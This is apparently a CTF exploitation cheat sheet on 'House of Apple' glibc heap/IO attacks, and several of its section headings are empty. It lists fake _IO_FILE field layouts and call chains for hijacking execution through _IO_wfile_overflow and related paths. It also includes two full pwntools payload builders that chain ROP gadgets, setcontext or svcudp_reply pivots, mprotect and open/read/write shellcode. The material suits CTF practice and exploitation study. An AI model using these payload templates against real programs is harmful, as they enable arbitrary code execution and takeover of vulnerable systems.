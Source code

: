 [toc]

## House of Apple 1

House analysis: [link](https://www.roderickchan.cn/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-1/) by author *Roderick*.

IO structs offset: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/IO%20Structs/IO_structs.md).

EXP template: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/xpl.py).

### HIJACK | tcache





### HIJACK | mp_





### HIJACK | pointer_guard







## House of Apple 2

House analysis: [link](https://www.roderickchan.cn/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/#%E5%88%A9%E7%94%A8%E5%8E%9F%E7%90%86) by author *Roderick*.

IO structs offset: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/IO%20Structs/IO_structs.md).

EXP template: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/xpl.py).

### HIJACK | _IO_wfile_overflow

**Fake IO Deployment**:

- `_flags`: `~(2 | 0x8 | 0x800)`; Or simply `0` if we don't care `rdi`; Set  `'  sh;'` for getting shell.
- `vtable`:  `_IO_wfile_jumps`, `_IO_wfile_jumps_mmap` or `_IO_wfile_jumps_maybe_mmap`.
- `_wide_data`: Heap address `A` in our control, namely `*(fp+0xa0)=A`.
- `_wide_data->_IO_write_base`: `0`, namely `*(A+0x18)=0`.
- `_wide_data->_IO_buf_base`: `0`，namely `*(A+0x30)=0`.
- `_wide_data->_wide_vtable`: Heap address `B` in our control, namely `*(A+0xe0)=B`.
- `_wide_data->_wide_vtable->doallocate`: Starting function/gadget of attack `C`  to hijack `RIP`, namely `*(B+0x68)=C`.

**Attack Chain**:

```
_IO_wfile_overflow
    _IO_wdoallocbuf
        _IO_WDOALLOCATE
            *(fp->_wide_data->_wide_vtable + 0x68)(fp)
```

#### GG | setcontext+61

**Version**: GLIBC 2.35

```python
# Gadgets
_IO_list_all    = libc_base + libc.sym['_IO_list_all']
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
setcontext      = libc_base + libc.sym['setcontext'] + 61
mprotect        = libc_base + libc.sym['mprotect']

rop 	        = ROP(libc)
p_rdi_r         = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
p_rsi_r         = libc_base + rop.find_gadget(['pop rsi', 'ret'])[0]
p_rdx_rbx_r     = libc_base + rop.find_gadget(['pop rdx', 'pop rbx', 'ret'])[0]
leave_r	        = libc_base + rop.find_gadget(['leave', 'ret'])[0]
ret             = libc_base + rop.find_gadget(['ret'])[0]
pa(_IO_list_all)
pa(_IO_wfile_jumps)
pa(setcontext)

fakeIO_addr    = 0xdeadbeef
mprotect_chain = [p_rdi_r, fakeIO_addr&(~0xfff), p_rsi_r, 0x4000, p_rdx_rbx_r, 7, 0, mprotect, fakeIO_addr+0x140]	# 0x48 bytes
orw_chain      = asm(shellcraft.cat('/flag'))	# 0x23 bytes
pa(fakeIO_addr)

pl = flat({
    # fake_IO  
    0: {  
        0x0:  0,	# _flag
        0x20: 0,	# _IO_write_base
        0x28: 1,	# _IO_write_ptr 
        0x88: fakeIO_addr,	# _lock
        0xa0: fakeIO_addr+0x100,  # _wide_data = rdx
        0xd8: _IO_wfile_jumps   	# vtable
    },
    # fake_IO->_wide_data
    0x100: { 
        0x18: 0,    # _IO_write_base
        0x30: 0,    # _IO_buf_base
        0x40: orw_chain,	# mprotect ->
        0xa0: [fakeIO_addr+0x300, ret],	# setcontext ->
        0xe0: fakeIO_addr+0x200   # _wide_vtable
    },
    # fake_IO->wide_data->_wide_vtable
    0x200: {
        # <+61>:  mov rsp, [rdx+0xa0]
        # <+294>: mov rcx, [rdx+0xa8]
        # <+301>: push rcx
        # <+334>: ret
        0x68: setcontext  # __doallocate
    },
    0x300: {
        0x0: mprotect_chain,
    }
}, filler='\0')
```

- `_lock` pointer not necessary. 
- `_IO_write_base` & `_IO_buf_base` at **fake_IO->_wide_data** not necessary.
- GDB Breakpoints: `*_IO_wdoallocbuf`, `*_IO_wdoallocate` (`*_IO_wdefault_doallocate`).

#### GG | svcudp_reply+26

**Version**: < GLIBC 2.35, or Ubuntu GLIBC 2.35-0ubuntu3.8.

```python
 # Gadgets
_IO_list_all    = libc_base + libc.sym['_IO_list_all']
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
setcontext      = libc_base + libc.sym['setcontext'] + 61
mprotect        = libc_base + libc.sym['mprotect']
svcudp_reply 	= libc_base + 0x16a06a

rop 	        = ROP(libc)
p_rdi_r         = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
p_rsi_r         = libc_base + rop.find_gadget(['pop rsi', 'ret'])[0]
p_rdx_rbx_r     = libc_base + rop.find_gadget(['pop rdx', 'pop rbx', 'ret'])[0]
leave_r	        = libc_base + rop.find_gadget(['leave', 'ret'])[0]
ret             = libc_base + rop.find_gadget(['ret'])[0]
add_rsp_0x28_r  = libc_base + 0x0000000000045f25
add_rsp_0xa8_r  = libc_base + 0x00000000000434a7
pa(_IO_list_all)
pa(_IO_wfile_jumps)
pa(setcontext)

fakeIO_addr    = 0xdeadbeef
mprotect_chain = [p_rdi_r, fakeIO_addr&(~0xfff), p_rsi_r, 0x4000, p_rdx_rbx_r, 7, 0, mprotect, fakeIO_addr+0x140]	# 0x48 bytes
orw_chain      = asm(shellcraft.cat('/flag'))	# 0x23 bytes
pa(fakeIO_addr)

pl = flat({
    # fake_IO  
    0: {  
        0x0:  0,	# _flag
        0x20: 0,	# _IO_write_base
        0x28: 1,	# _IO_write_ptr
        0x38: add_rsp_0x28_r,          
        0x48: fakeIO_addr+0x30,  
        0x58: leave_r,
        0x60: fakeIO_addr+0x30,
        0x68: p_rdi_r, 
        0x70: fake_IO&(~0xfff), 
        0x78: p_rsi_r, 
        0x80: 0x4000, 
        0x88: add_rsp_0xa8_r, 
        0xa0: fakeIO_addr+0x100,    # _wide_data 
        0xd8: _IO_wfile_jumps   # vtable
    },
    # fake_IO->_wide_data
    0x100: { 
        0x18: 0,    # _IO_write_base
        0x30: 0,    # _IO_buf_base
        0x38:[p_rdx_rbx_r, 7, 0, mprotect, fake_IO+0x100+0x70],
        0x70: asm(shellcraft.open('/flag', 0) + shellcraft.read(3, heap_base, 0x100) + shellcraft.write(1, heap_base, 0x100)),	# orw_chain
        0xe0: fake_IO+0x200   # _wide_vtable
    },
    # fake_IO->wide_data->_wide_vtable
    0x200: {
        # mov rbp, [rdi + 0x48]; mov rax, [rbp + 0x18]; lea r13, [rbp + 0x10]; 
        # mov [rbp + 0x10], 0; mov rdi, r13; call [rax + 0x28];
        0x68: svcudp_reply  # __doallocate 
    }
}, filler='\0')
```

- `_IO_write_base` & `_IO_buf_base` at **fake_IO->_wide_data** not necessary.

- Mprotect chain is separated and connected by `add rsp, ...` gadgets (manually search offsets).

- Manually ORW chain format, can be replaced with `orw_chain`.


### HIJACK | _IO_wfile_underflow_mmap

**Fake IO Deployment**:

- `_flags`: `~4`; Or simply `0` if we don't care `rdi`; Set  `'  sh;'` for getting shell.
- `vtable`:  `_IO_wfile_jumps_mmap`.
- `_IO_read_ptr < _IO_read_end`: namely `*(fp+8) < *(fp+0x10)`.
- `_wide_data`: Heap address `A` in our control, namely `*(fp+0xa0)=A`.
- `_wide_data->_IO_read_ptr >= _wide_data->_IO_read_end`: namely `*A >= *(A+8)`.
- `_wide_data->_IO_buf_base`: `0`，namely `*(A+0x30)=0`.
- `_wide_data->_IO_save_base`: `0` or a valid address can be free, namely `*(A+0x40)=0`.
- `_wide_data->_wide_vtable`: Heap address `B` in our control, namely `*(A+0xe0)=B`.
- `_wide_data->_wide_vtable->doallocate`: Starting function/gadget of attack `C`  to hijack `RIP`, namely `*(B+0x68)=C`.

**Attack Chain**:

```
_IO_wfile_underflow_mmap
    _IO_wdoallocbuf
        _IO_WDOALLOCATE
            *(fp->_wide_data->_wide_vtable + 0x68)(fp)
```



### HIJACK | _IO_wdefault_xsgetn

When `_IO_wdefault_xsgetn` is triggered, `rdx` cannot be 0.

**Fake IO Deployment**:

- `_flags`: `0x800`.
- `vtable`:  `_IO_wstrn_jumps`, `_IO_wmem_jumps`, or `_IO_wstr_jumps`.
- `_mode`: Greater than 0 (`*(fp+0xc0) > 0`).
- `_wide_data`: Heap address `A` in our control, namely `*(fp+0xa0)=A`.
- `_wide_data->_IO_read_end == _wide_data->_IO_read_ptr`:  `0`, namely `*(A+8)=*A`.
- `_wide_data->_IO_write_ptr > _wide_data->_IO_write_base`: namely  `*(A+0x20) > *(A+0x18)`.
- `_wide_data->_wide_vtable`: Heap address `B` in our control, namely `*(A+0xe0)=B`.
- `_wide_data->_wide_vtable->doallocate`: Starting function/gadget of attack `C`  to hijack `RIP`, namely `*(B+0x68)=C`.

**Attack Chain**:

```
_IO_wdefault_xsgetn
    __wunderflow
        _IO_switch_to_wget_mode
            _IO_WOVERFLOW
                *(fp->_wide_data->_wide_vtable + 0x18)(fp)
```





## House of Apple 3

House analysis: [link](https://www.roderickchan.cn/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-3/) by author *Roderick*.

IO structs offset: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/IO%20Structs/IO_structs.md).

EXP template: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/xpl.py).